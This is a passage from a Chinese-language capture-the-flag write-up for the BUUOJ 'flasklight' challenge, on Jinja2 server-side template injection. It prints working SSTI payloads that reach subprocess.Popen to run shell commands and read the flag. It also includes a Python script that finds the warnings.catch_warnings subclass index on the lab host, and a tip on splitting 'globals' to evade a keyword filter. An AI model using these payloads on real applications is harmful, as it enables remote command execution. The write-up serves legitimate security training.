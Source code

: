 ```url
?search={{''.__class__.__mro__[2].__subclasses__()[258]('cat flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

#### 方法二: warnings.catch_warnings

使用列表，通过列表获取`object`的所有属性。`__base__`获取所继承的基类名

```url
?search={{[].__class__.__base__}}
```

`<type 'object'>`

```url
?search={{[].__class__.__base__.__subclasses__()}}
```

使用之前的脚本修改后查找`warnings.catch_warnings`的索引值

```python
import requests
import html
import re

url = "http://32782db1-4d7e-4680-83e2-be76f41a21f9.node5.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()}}"

resp = requests.get(url)
content = html.unescape(resp.text)

res = re.findall("<h3>(.*?)</h3>", content)
r = res[0].split(',')
for i, v in enumerate(r):
    if 'warnings.catch_warnings' in v:
        print(i)
```

返回值为`59`

```url
?search={{[].__class__.__base__.__subclasses__()[59]}}
```

返回`<class 'warnings.catch_warnings'>`后继续

这个`warnings.catch_warnings`是不含`os`模块的类，所以在使用的时候需要`import os`模块

找到位置后通过`__init__`进行初始化，然后使用`__globals__`获得全局变量，在使用`__builtins__`内键命名空间，运行一个`eval`对象，参数为`__import__('os').popen('ls').read()`，意思为导入`os`模块然后使用`popen()`方法执行命令，这个方法还有两个可选参数，分别为文件读取权限的模式（默认为 `r` ）、缓冲大小，最后通过`read()`方法读取内容，`read()`方法不传入参数默认读取所有

其中需要注意的是`globals`这个单词放一起会被过滤掉，需要使用拼接方式绕过

```url
?search={{[].__class__.__base__.__subclasses__()[59].__init__}}
```

返回`<unbound method catch_warnings.__init__>`
